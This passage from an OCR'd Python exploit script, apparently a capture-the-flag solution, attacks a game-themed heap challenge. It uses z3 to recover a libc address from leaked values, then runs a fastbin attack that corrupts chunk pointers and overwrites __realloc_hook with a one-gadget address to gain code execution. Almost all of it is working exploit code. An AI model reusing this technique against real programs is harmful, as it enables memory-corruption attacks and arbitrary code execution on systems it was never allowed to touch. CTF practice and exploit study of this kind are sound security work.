         elif target["hero_x"] in ["Ana","Lucio","Mercy","Symmetra","Zenyatta"]:
            s.add(target["addr"] & 3 == 1)
            s.add(target["addr"]-(5*((0xcccd*target["addr"]) >> 18)) == heroes[target["hero_x"]])
        elif target["hero_x"] in ["Baston","Hanzo","Junkrat","Mei","Turret","Widowmaker"]:
            s.add(target["addr"] & 3 == 0)
            s.add(target["addr"]-(6*((0xaaab*target["addr"]) >> 18)) == heroes[target["hero_x"]])
    
    processRound()

    leak_3  = r.recvuntil("Round:").split("\n")
    hi_lvl  = int(leak_3[0].split(" ")[5])
    lo_lvl  = int(leak_3[1].split(" ")[4])
    
    s.add(hi_addr%0x3e8 == hi_lvl)
    s.add(lo_addr%0x3e8 == lo_lvl)
    s.add(( hi_addr >> 16) - 1000*(((hi_addr*0x10000)+lo_addr)/0x3e80000) + ((hi_addr*0x10000)+lo_addr) % 0xffff % 0x3e8 <= 0x681)
    if s.check() == z3.sat:
        m = s.model() 
        libc_leak = (0x7f0000000000+(m[hi_addr].as_long()*0x1000000)+m[lo_addr].as_long()*0x100) 
        libc_base = libc_leak-0x3c3b00 
        realloc_hook = libc_base+libc.symbols["__realloc_hook"] 
        unsortedbin = libc_base+0x3c3b78
        one_shot = libc_base+0x4526a
        #log.success("libc_leak at: "+hex(libc_leak))
        log.success("libc_base at: "+hex(libc_base))    
        log.success("__realloc_hook at: "+hex(realloc_hook))
        log.success("unsorted bin at: "+hex(unsortedbin))
        log.success("one_shot at: "+hex(one_shot)+"\n\n")
    else:
        print "unsat! try again."
        sys.exit(-1)

    # Step 4. -- Fastbin attack
    log.info("starting Fastbin Attack...")
    changeEmail("H"*0x67) # allocate fast chunk
    
    processRound()
    # Step 4.1.
    changeEmail("") 
    # Step 4.2.
    payload  = "I"*8*17
    payload += p64(0x71) # fast chunk size
    payload += p64(realloc_hook-0x20+0x5) 
    payload += "I"*8*11 # to avoid placing fastbin chunk in unsorted bin
    payload += "I"*7 
    changeName(payload) ## corrupt fast chunk's FD ptr
    
    processRound()
    
    # Step 4.3.
    log.info("restoring corrupted unsorted chunk's BK ptr...")
    payload  = "J"*8
    payload += p64(unsortedbin) # to satisfy `fwd->bk = bck` constraint
    payload += "J"*(0x67-0x10) 
    changeEmail(payload) # place target at head of fastbin
    changeName("") 
    
    processRound()
   
    changeName("A"*0xb+p64(one_shot)+"C"*(0x67-0x8-0xb))    